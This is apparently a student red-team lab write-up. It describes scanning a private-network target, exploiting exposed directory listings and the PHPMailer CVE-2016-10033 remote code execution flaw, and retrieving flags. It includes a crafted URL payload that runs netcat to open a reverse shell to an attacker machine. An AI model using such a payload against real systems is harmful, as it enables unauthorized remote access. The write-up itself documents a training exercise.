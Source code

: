 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveal the below services and OS details:

nmap -sV 192.168.1.115

![1](/Resources/Images/4/1.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information on the vulnerabilities found in the previous step. These vulnerabilities are potential points of entry

Vulnerability | Description | Impact
---|---|---
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing a bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1.txt:**  `a2c1f66d28051bd3a5874b5b6r43e21`

- **CWE-548** Exposure of information through directory browsing
    
    Sensitive information was accessed without authorization through directory browsing. 
    
    The vendor directory has no restrictions and is accessible through the browser. It includes several sensitive files that leak information about the services in use, their versions, and the critical data `flag1{a2c1f66d28051bd3a5874b5b6r43e21}` in the PATH file.

    ---

    **Vendor Directory Index view from the browser** | PATH File: **Flag1** | **PHPMAILER version**
     ---|---|---
    ![6](/Resources/Images/4/6.PNG) | ![7](/Resources/Images/4/7.PNG) | ![9](/Resources/Images/4/9.PNG)    

---

**flag2.txt:**  `6a8ed560f0b5358ecf844108048eb337`

**flag3.txt:**  `a0f568aa9de277887f37730d71520d9b`

- **CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer

    The current version of PHPMailer in use (5.2.16) is vulnerable. It allows extra parameters in the mail command and consequently executes arbitrary code. Therefore, the exploited machine can establish stealthy communication with a Command and Control through a reverse shell that will bypass the inbound rules of a firewall.

    1. First, a customized script uploads a file to the vulnerable machine. The file allows the execution of NetCat in the exploited machine.

    2.  Second, a Command and Control is configured to listen using a NetCat command. 

    3. Finally, the exploited machine is instructed to call the Command and Control via a designed payload running in a browser. The payload has embedded a Netcat command to call the Command and Control machine.

        **Crafted payload:** `192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash`

        ![17](/Resources/Images/4/17.PNG)

        **Sensitive information has been found in the "www" and "WordPress uploads" directory**    

        **flag2**

        ![19](/Resources/Images/4/19.PNG)

        **flag3**

        ![20](/Resources/Images/4/20.png)